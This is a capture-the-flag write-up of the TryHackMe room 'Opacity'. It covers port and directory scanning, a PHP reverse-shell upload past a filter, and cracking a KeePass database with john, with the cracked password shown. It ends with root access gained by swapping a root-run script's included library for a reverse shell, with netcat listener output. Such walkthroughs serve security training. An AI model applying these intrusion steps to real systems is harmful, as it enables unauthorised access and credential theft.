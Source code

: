 ```yaml
---
title: "Opacity Writeup THM"
description: "My writeup of the TryHackMe room [Opacity](https://tryhackme.com/room/opacity)"
date: 2024-01-08
image: https://images.unsplash.com/photo-1596703720229-1f8fbb8daae5?q=80&w=2574&auto=format&fit=crop&ixlib=rb-4.0.3&ixid=M3wxMjA3fDB8MHxwaG90by1wYWdlfHx8fGVufDB8fHx8fA%3D%3D
math:
license:
hidden: false
comments: true
draft: false
tags:
    - Linux
    - SMB
categories:
    - Room
    - Easy
---
```


I am going to start with a nmap scan:

```bash
nmap -sC -sV 10.10.163.225

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-05 09:11 EST
Nmap scan report for 10.10.163.225
Host is up (0.057s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 0f:ee:29:10:d9:8e:8c:53:e6:4d:e3:67:0c:6e:be:e3 (RSA)
|   256 95:42:cd:fc:71:27:99:39:2d:00:49:ad:1b:e4:cf:0e (ECDSA)
|_  256 ed:fe:9c:94:ca:9c:08:6f:f2:5c:a6:cf:4d:3c:8e:5b (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
| http-title: Login
|_Requested resource was login.php
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_nbstat: NetBIOS name: OPACITY, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time:
|   date: 2024-01-05T14:12:03
|_  start_date: N/A
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.04 seconds
```

Now we know that it runs HTTP and SAMBA,

first let’s see what’s in the web page:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Opacity-writeup-THM/main/099e4dcc-8d66-4a36-8ebc-076e03053aef_Export-837ad346-3d23-4d4a-9c1e-e576658a205a/Opacity%200ac982ae7c05472f984b5712f3032562/Untitled.png)

We can see that there is a login page.

But there are other directories:

```bash
ffuf -u http://10.10.163.225/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.163.225/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6221ms]
.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 6475ms]
cloud                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 57ms]
css                     [Status: 301, Size: 312, Words: 20, Lines: 10, Duration: 2377ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 56ms]
:: Progress: [20469/20469] :: Job [1/1] :: 327 req/sec :: Duration: [0:00:46] :: Errors: 0 ::
```

The cloud one could let us upload a reverse shell:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Opacity-writeup-THM/main/099e4dcc-8d66-4a36-8ebc-076e03053aef_Export-837ad346-3d23-4d4a-9c1e-e576658a205a/Opacity%200ac982ae7c05472f984b5712f3032562/Untitled%201.png)

We need to start our listener with a revshell.php, and upload the php code like that to avoid the security measurements:

![Untitled](https://raw.githubusercontent.com/Blueaulo/Opacity-writeup-THM/main/099e4dcc-8d66-4a36-8ebc-076e03053aef_Export-837ad346-3d23-4d4a-9c1e-e576658a205a/Opacity%200ac982ae7c05472f984b5712f3032562/Untitled%202.png)

So we got the shell:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.163.225] 37874
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 14:47:56 up 37 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

In the opt folder I found out a dataset.kdbx file which stores the keepass credentials.

I copied it in the / folder so I could download it from my machine.

This type of file can be cracked using john:

```bash
john --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt Keepasshash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
741852963        (dataset)
1g 0:00:00:04 DONE (2024-01-05 09:58) 0.2105g/s 185.2p/s 185.2c/s 185.2C/s chichi..david1
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

And now if we open the file with keepass we got the credentials!

```bash
ssh sysadmin@10.10.163.225

sysadmin@10.10.163.225's password:
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-139-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri 05 Jan 2024 03:03:45 PM UTC

  System load:  0.02              Processes:             125
  Usage of /:   57.1% of 8.87GB   Users logged in:       0
  Memory usage: 28%               IPv4 address for eth0: 10.10.163.225
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

 * Introducing Expanded Security Maintenance for Applications.
   Receive updates to over 25,000 software packages with your
   Ubuntu Pro subscription. Free for personal use.

     https://ubuntu.com/pro

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Wed Feb 22 08:13:43 2023 from 10.0.2.15
sysadmin@opacity:~$
```

And we got the first flag.

From here we have a scripts folder, inside there is a file owned by root:

```bash
cat script.php
<?php

//Backup of scripts sysadmin folder
require_once('lib/backup.inc.php');
zipData('/home/sysadmin/scripts', '/var/backups/backup.zip');
echo 'Successful', PHP_EOL;

//Files scheduled removal
$dir = "/var/www/html/cloud/images";
if(file_exists($dir)){
    $di = new RecursiveDirectoryIterator($dir, FilesystemIterator::SKIP_DOTS);
    $ri = new RecursiveIteratorIterator($di, RecursiveIteratorIterator::CHILD_FIRST);
    foreach ( $ri as $file ) {
        $file->isDir() ?  rmdir($file) : unlink($file);
    }
}
?>
```

We see that this script calls `lib/backup.inc.php` so what I have done is moving the original script out of the folder, and instead put mine which contains a reverse shell(I have used the pentestermonkey one)

So the next time that the main script runs, we should have a reverse shell:

```bash
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.11.65.91] from (UNKNOWN) [10.10.163.225] 55346
Linux opacity 5.4.0-139-generic #156-Ubuntu SMP Fri Jan 20 17:27:18 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
 15:20:02 up  1:09,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
sysadmin pts/0    10.11.65.91      15:03    1:05   0.08s  0.08s -bash
uid=0(root) gid=0(root) groups=0(root)
bash: cannot set terminal process group (2322): Inappropriate ioctl for device
bash: no job control in this shell
root@opacity:/# ls
```
